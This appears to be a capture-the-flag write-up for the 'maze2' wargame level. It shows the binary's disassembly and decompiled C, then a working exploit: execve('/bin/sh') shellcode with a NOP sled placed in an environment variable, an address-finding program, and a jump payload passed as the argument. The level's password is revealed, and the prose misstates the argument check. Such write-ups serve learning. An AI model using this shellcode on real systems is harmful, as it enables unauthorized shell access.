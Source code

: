 Main disassembly:

```assembly
0x0804841b <+0>:	push   %ebp
   0x0804841c <+1>:	mov    %esp,%ebp
   0x0804841e <+3>:	sub    $0xc,%esp
   0x08048421 <+6>:	lea    -0xc(%ebp),%eax
   0x08048424 <+9>:	mov    %eax,-0x4(%ebp)
   0x08048427 <+12>:	cmpl   $0x2,0x8(%ebp)
   0x0804842b <+16>:	je     0x8048434 <main+25>
   0x0804842d <+18>:	push   $0x1
   0x0804842f <+20>:	call   0x80482e0 <exit@plt>
   0x08048434 <+25>:	mov    0xc(%ebp),%eax
   0x08048437 <+28>:	add    $0x4,%eax
   0x0804843a <+31>:	mov    (%eax),%eax
   0x0804843c <+33>:	push   $0x8
   0x0804843e <+35>:	push   %eax
   0x0804843f <+36>:	lea    -0xc(%ebp),%eax
   0x08048442 <+39>:	push   %eax
   0x08048443 <+40>:	call   0x8048300 <strncpy@plt>
   0x08048448 <+45>:	add    $0xc,%esp
   0x0804844b <+48>:	mov    -0x4(%ebp),%eax
   0x0804844e <+51>:	call   *%eax
   0x08048450 <+53>:	mov    $0x0,%eax
   0x08048455 <+58>:	leave  
---Type <return> to continue, or q <return> to quit---
   0x08048456 <+59>:	ret 
```

C code of main:

```c
int main(int argc,char **argv)

{
  char code [8];
  anon_subr_void *fp;
  
  if (argc != 2) {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  strncpy(code,argv[1],8);
  (*(code *)code)();
  return 0;
}
```

**Explanation:**

we can see from the c code that when arguments are two it exits. otherwise it goes on and copies the first parameter with istrncopy and executes the content. so we will execute the exploit on that. put the shell code address withn those 8 bytes and pass it as parameter.

```shell
export CODE=$(python -c 'print "\x90"*100 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"')
```

get address:

```c
#include <stdlib.h>

int main(int argc, char *argv[])
{
    char* ptr = getenv("CODE");
    printf("%p\n", ptr);
}
```

**Address:** 0xffffdeaf

```shell
/maze/maze2 $(python -c 'print "\xb8\xaf\xde\xff\xff\xff\xe0"')
```



**Password:** beinguthok

